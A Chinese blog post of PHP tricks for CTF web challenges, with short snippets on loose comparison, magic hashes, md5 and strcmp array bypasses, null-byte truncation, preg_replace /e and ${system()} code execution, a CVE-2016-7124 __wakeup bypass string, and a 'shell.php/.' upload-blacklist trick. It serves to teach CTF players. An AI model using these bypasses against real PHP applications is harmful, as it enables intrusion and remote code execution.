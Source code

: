 ```yaml
---
layout:     post
title:      "PHP 各种黑魔法"
subtitle:   ""
date:       2018-04-14 17:40:00
author:     "kuron3k0"
header-img: "img/home-bg-geek.jpg"
tags:
    - PHP
    - CTF
    - WEB
---
```


> 总结了一下关于在CTF中PHP的一些小技巧，今后会不断更新。<br>
> 虽然现在的题目很少会用到了，但知道多点总是没坏处的。


## 弱类型
```php
<?php

//输出 boolean true
$a = 0;
$b = '0asdf';
var_dump($a == $b);


//输出 boolean true
$a = 0;
$b = NULL;
var_dump($a == $b);
?>

```

## 科学记数法
```php
<?php

//输出 boolean true
$a = '0e3543';
$b = '0e1234';
var_dump($a == $b);

?>
```

## 函数
- md5()<br>
```php
<?php
//http://xxxx?a[]=1&b[]=2
//md5对数组类型hash的时候会返回false
//输出 boolean true
$a = md5($_GET['a']);
$b = md5($_GET['b']);
var_dump($a == $b);

//把md5第二个参数设置为true，会将加密后字符串当成十六进制转换成字符
//输出 'or'6�]��!r,��b
echo md5('ffifdyop',true);

?>
```
- ereg()/eregi()截断<br>
```php
<?php

//http://xxxx?a=abc;
//输出 boolean false
//http://xxxx?a=abc%00;
//输出 boolean true
var_dump(eregi('^[a-z]+$',$_GET[a]));

?>
```

- preg_replace()代码执行<br>
```php
<?php

//pattern里使用参数e导致代码执行
preg_replace('/test/e','phpinfo()','test');

?>
```

- 对parse_url()参数检测的绕过<br>


![](/img/in-post/post-php-trick/parse_url1.png)
*<center>两个斜杠</center>*

![](/img/in-post/post-php-trick/parse_url2.png)
*<center>三个斜杠</center>*

<font color=red size=2 face="黑体">注：在path前面的"/"到达一定数量之后，parse_url会忽略参数</font>

- mt_srand()伪随机数<br>
用`php_mt_seed`即可算出种子
<br>


- is_numeric()十六进制绕过<br>
```php
<?php

var_dump(is_numeric('0xabcd'));
//输出 boolean true

?>
```

- strcmp()绕过<br>
strcmp输入数组作为参数会返回`NULL`<br>
```php
<?php

//http://xxxx?a[]=www
$a=$_GET['a'];
echo strcmp('aaaa',$a).'<br>';
//输出 无（即NULL）
if(strcmp('aaaa',$a)){
    echo 'false!';
}else{
    echo 'success!';
}
//输出 success

?>
```

## 反序列化
- _wakeup()魔术方法的绕过<br>
利用的是`CVE-2016-7124`<br>
```php
<?php

class test{

    public $s = 'secret';

    function __construct(){
        
    }

    function __wakeup(){
        echo 'wakeup'.'<br>';
        $this->s = '';
    }

    function __destruct(){
        echo 'destruct '.$this->s.'<br>';
        
    }
}

$a = new test();
$serial = serialize($a).'<br>'; 
//O:4:"test":1:{s:1:"s";s:6:"secret";}


unserialize($serial);
//输出：
//wakeup
//destruct 
//可以看到反序列化先运行了__wakeup()函数

//但是如果把反序列化中参数的个数调整到比原本类的个数高的话，即可绕过wakeup
//即 O:4:"test":2:{s:1:"s";s:6:"secret";}
unserialize('O:4:"test":2:{s:1:"s";s:6:"secret";}');
//输出： 
//destruct secret
//没有运行wakeup


?>

```

- 双引号里的代码执行
```php
<?php

$a = "${system('whoami')}";

?>
```

## 文件上传
- shell.php/.
上传的文件名带/.的话，php解析器自动忽略掉，从而绕过黑名单<br>